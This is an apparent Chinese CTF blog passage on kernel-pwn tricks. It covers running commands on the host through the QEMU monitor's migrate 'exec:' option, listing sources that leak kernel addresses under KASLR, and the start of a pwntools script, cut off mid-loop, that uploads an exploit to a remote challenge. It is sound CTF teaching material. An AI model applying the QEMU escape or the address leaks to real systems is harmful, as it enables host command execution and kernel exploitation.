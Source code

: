 ```
```
其中，**`URI 可以是 'exec:<command>' 或 tcp:<ip:port>`**，前者支持我们直接在宿主机上执行命令，例如下面的命令在宿主机上执行了 ls 命令：<br>
```
migrate "exec: sh -c ls"
```
有的时候可能会由于一些特殊原因遇到没有输出的情况，这个时候可以尝试将 stdout 重定向至 stderr，例如：
```
(qemu) migrate "exec: whoami"
qemu-system-x86_64: failed to save SaveStateEntry with id(name): 2(ram): -5
qemu-system-x86_64: Unable to write to command: Broken pipe
qemu-system-x86_64: Unable to write to command: Broken pipe
(qemu) migrate "exec: whoami 1>&2"
arttnba3
qemu-system-x86_64: failed to save SaveStateEntry with id(name): 2(ram): -5
qemu-system-x86_64: Unable to write to command: Broken pipe
qemu-system-x86_64: Unable to write to command: Broken pipe
(qemu) 
```

[https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/tricks/qemu-monitor/](https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/tricks/qemu-monitor/)<br>

## 特典二：如何找到kernel api地址<br>
对于开启了kaslr的题目，想办法获取kernel地址是非常重要的：<br>
```
0. 内核没开启kaslr（可以通过cat /proc/cmdline确认）
/proc/cmdline 是 procfs 里的一条只读“虚拟文件”，内容就是这次开机时 bootloader 传给内核的命令行参数（一整行，空格分隔）。拿它来判断是否带了 nokaslr、console=...、root=... 等启动参数。

1. cat /proc/kallsym

2. cat /proc/modules

3. cat /sys/module/xxxx/sections/.text 

4. 如果你能造成内核panic的话，打印报错信息时的r11寄存器就是内存地址

5. dmesg会打印内核日志，有的可能会打印出内核地址
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250827195452.png)
如果以上办法都不行，我们可能需要想办法去leak 地址。<br>

## 特典三: kernel pwn远程传文件脚本<br>
我直接超了这位佬的脚本.jpg<br>
[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x00-%E7%BB%AA%E8%AE%BA](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x00-%E7%BB%AA%E8%AE%BA)<br>
```python
from pwn import *
import base64
#context.log_level = "debug"

with open("./exp", "rb") as f:
    exp = base64.b64encode(f.read())

p = remote("127.0.0.1", 11451)
#p = process('./run.sh')
try_count = 1
while True:
    p.sendline()
    p.recvuntil("/ $")

    count = 0
    for i in range(0, len(exp), 0x200):
```
